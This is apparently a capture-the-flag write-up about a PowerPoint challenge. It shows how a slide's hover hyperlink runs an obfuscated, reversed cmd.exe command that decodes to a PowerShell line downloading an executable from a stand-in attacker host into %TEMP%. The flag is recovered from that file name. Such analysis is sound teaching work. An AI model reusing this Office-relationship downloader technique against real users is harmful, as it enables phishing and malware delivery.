


**Description**: -

**Stars**: 2/5

**Downloadable**:
Alien Weaknesses.pptx - a PowerPoint presentation

**Goal**: Given the Alien Weaknesses.pptx file, get the flag

**Solution**: 

Quite interesting challenge, using a very specific ability of Office documents to have external relations.
As we know, the new Office document format since 2007 is basically just a zipped folder of different .xml files describing it. So, first thing we need to do is unpack it with any zip extractor.

Then we can check what’s inside. Powerpoint presentation, has a standard office document format with documentpProperties etc. + ppt folder with one xml file per slide (in this case only one). We will start here to see what’s actually included int the slide.



This looks interesting, there’s an image with a strange directive for “a:hlinkHover” event. But what does it mean? 

`ppaction://program` is in fact documented by Microsoft here: https://docs.microsoft.com/en-us/openspecs/office_standards/ms-oi29500/a65b76db-6abc-4989-8cd1-baa9a3500f6f

`[It] specifies that the link shall run an application external to this presentation package. The r:id attribute for this element specifies the corresponding relationship containing the reference to the application. `

So now we need to check this r:id object. Seems this is a relation object and all relations can be usually found in `__rel` folder.

If we check there, we can see that relation `rId2` is in fact an URL encoded command line argument, that is executed after mouse hovers over the image in presentation.



What does it do? Well it is a URL encoded command, so we can decode it in CybeChef:

```Batchfile
cmd.exe /V:ON/C"set yM="o$ eliftuo- exe.x/neila.htraeyortsed/:ptth rwi ;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q' + pmet:vne$ = o$" c- llehsrewop&amp;&amp;for /L %X in (122;-1;0)do set kCX=!kCX!!yM:~%X,1!&amp;&amp;if %X leq 0 call %kCX:*kCX!=%"
```

It seems to contain a reversed command string for additional obfuscation. After we reverse it (again in cyberchef) we can see it’s a powershell command:

```powershell
powershell -c "$o = $env:temp  + 'Q0hUQntwSDFzSGlOZ193MF9tNGNyMHM_Pz99.exe'; iwr http:/destroyearth.alien/x.exe -outfile $o
```

It seems to be downloading an executable to the %TEMP% folder, but the domain doesn’t exist. Normally this would be a part of code that we call a “Downloader” malware. Its purpose is to download and execute next stage of the infection chain.

In this case what is interesting for us is file name. It looks like a base64, and in fact if we decode it kind of gives us a flag, but this flag is not yet correct: `CHTB{pH1sHiNg_w0_m4cr0s.Ïß`

There seems to be something wrong in the end. Indeed it is a base64 with slightly changed alphabet (malware actors sometimes change base64 alphabet for additional obfuscation). In this case we have something that is called “URL_safe base64 and is a part of standard RFC 4648 for base encodings. We can choose it as an option in CyberChef and it will give us a correct flag: `CHTB{pH1sHiNg_w0_m4cr0s???}`
